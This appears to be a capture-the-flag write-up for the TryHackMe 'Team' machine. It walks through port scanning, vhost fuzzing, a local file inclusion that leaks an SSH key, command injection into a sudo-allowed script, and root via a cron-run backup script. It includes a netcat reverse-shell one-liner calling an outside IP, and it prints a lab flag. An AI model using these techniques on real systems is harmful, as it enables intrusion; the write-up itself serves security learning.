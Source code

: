 - - - 
created : 25-07-2025 

Tags : #easy 
- - - 
# Objective

**Please allow 3-5 minutes for the box to boot**
# Recon

## Rustscan - Nmap

We use [Rustscan](../../3%20-%20Tags/Hacking%20Tools/Rustscan.md) that will pass the result to [Nmap](../../3%20-%20Tags/Hacking%20Tools/Nmap.md) :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Team]
└─$ rustscan -a team.thm -- -A 
 
Open 10.10.168.250:21
Open 10.10.168.250:22
Open 10.10.168.250:80
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.5
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Team
|_http-server-header: Apache/2.4.41 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
```

# Enumeration

## HTTP(80)

### Gobuster

We can use [Gobuster](../../3%20-%20Tags/Hacking%20Tools/Gobuster.md) tu start [Enumeration](../../3%20-%20Tags/Hacking%20Concepts/Enumeration.md) on the target :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Team]
└─$ gobuster dir -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt  -u http://team.thm  

/.hta                 (Status: 403) [Size: 273]
/.htpasswd            (Status: 403) [Size: 273]
/.htaccess            (Status: 403) [Size: 273]
/assets               (Status: 301) [Size: 305] [--> http://team.thm/assets/]
/images               (Status: 301) [Size: 305] [--> http://team.thm/images/]
/index.html           (Status: 200) [Size: 2966]
/robots.txt           (Status: 200) [Size: 5]
/scripts              (Status: 301) [Size: 306] [--> http://team.thm/scripts/]
/server-status        (Status: 403) [Size: 273]
Progress: 4746 / 4747 (99.98%)

```

![Pasted image 20250725204448.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725204448.png)

![Pasted image 20250725204548.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725204548.png)
### FFuf

Using [FFuf](../../3%20-%20Tags/Hacking%20Tools/FFuf.md) to fuzz vhosts :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Team]
└─$ ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -H 'Host: FUZZ.team.thm' -u http://team.thm -fs 11366 -c
________________________________________________

dev                     [Status: 200, Size: 187, Words: 20, Lines: 10, Duration: 60ms]
www                     [Status: 200, Size: 2966, Words: 140, Lines: 90, Duration: 57ms]
:: Progress: [20478/20478] :: Job [1/1] :: 632 req/sec :: Duration: [0:00:37] :: Errors: 0 ::

```

We use [Nano](../../3%20-%20Tags/Hacking%20Tools/Nano.md) to add them :

![Pasted image 20250725205143.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725205143.png)

`dev.team.thm` :

![Pasted image 20250725205220.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725205220.png)
![Pasted image 20250725205306.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725205306.png)

### Caido

We can try [Local File Inclusion (LFI)](../../3%20-%20Tags/Hacking%20Concepts/Local%20File%20Inclusion%20(LFI).md) with [Caido](../../3%20-%20Tags/Hacking%20Tools/Caido.md) :

![Pasted image 20250725210416.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725210416.png)

![Pasted image 20250725211146.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725211146.png)

![Pasted image 20250725211342.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725211342.png)

And we can retrieve the first flag:

![Pasted image 20250725211728.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725211728.png)
# Exploit

We retrieve `dale` [SSH](../../3%20-%20Tags/Hacking%20Concepts/SSH.md) private key, i did it wit [Caido](../../3%20-%20Tags/Hacking%20Tools/Caido.md) and a [Local File Inclusion (LFI)](../../3%20-%20Tags/Hacking%20Concepts/Local%20File%20Inclusion%20(LFI).md) wordlist for linux systems (i tried not URL encoded and didn't worked):

![Pasted image 20250725215329.png](../../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250725215329.png)
## SSH First Access

We save it and make it executable with `chmod 600 id_dale` then use it:

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Team]
└─$ ssh -i id_dale dale@team.thm                                                          
Last login: Mon Jan 18 10:51:32 2021
dale@ip-10-10-168-250:~$ ls
user.txt
dale@ip-10-10-168-250:~$ cat user.txt
THM{6Y0TXHz7c2d}
```

We have again the flag, retrievable from [Website](../../3%20-%20Tags/Hacking%20Concepts/Website.md) with [Local File Inclusion (LFI)](../../3%20-%20Tags/Hacking%20Concepts/Local%20File%20Inclusion%20(LFI).md) .
# Lateral Movement - Privilege Escalation

We can start [Privilege Escalation](../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md) by checking permissions :

```bash
dale@ip-10-10-168-250:/home$ sudo -l
Matching Defaults entries for dale on ip-10-10-168-250:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dale may run the following commands on ip-10-10-168-250:
    (gyles) NOPASSWD: /home/gyles/admin_checks
dale@ip-10-10-168-250:/home$ cd gyles
dale@ip-10-10-168-250:/home/gyles$ cat admin_checks 
#!/bin/bash

printf "Reading stats.\n"
sleep 1
printf "Reading stats..\n"
sleep 1
read -p "Enter name of person backing up the data: " name
echo $name  >> /var/stats/stats.txt
read -p "Enter 'date' to timestamp the file: " error
printf "The Date is "
$error 2>/dev/null

date_save=$(date "+%F-%H-%M")
cp /var/stats/stats.txt /var/stats/stats-$date_save.bak

printf "Stats have been backed up\n"

```

We’ll be injecting in the error variable since we see that the variable is directly passed to a system call:

```bash
dale@ip-10-10-168-250:/home/gyles$ sudo -u gyles /home/gyles/admin_checks
Reading stats.
Reading stats..
Enter name of person backing up the data: name
Enter 'date' to timestamp the file: /bin/bash
The Date is /bin/bash
id
uid=1001(gyles) gid=1001(gyles) groups=1001(gyles),108(lxd),1003(editors),1004(admin)
```

Now we have a shell as the user Gyle.

Also, going through “.bash_history”, we see a trace of Cronjob running.

Since, going through the file we see that it’s a bash script that copies some backups, we decided to edit the file and add a [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) since we knew that a Cronjob was being executed:

```bash
cat main_backup.sh        
#!/bin/bash
cp -r /var/www/team.thm/* /var/backups/www/team.thm/
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.250.11.13 1337 >/tmp/f
```

We setup a listener with [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) and wait for root [Shell](../../3%20-%20Tags/Hacking%20Concepts/Shell.md) :

```bash
┌──(hax㉿HaxonKali)-[~/Scrivania]
└─$ nc -lvnp 1337
listening on [any] 1337 ...

```

Pwned !!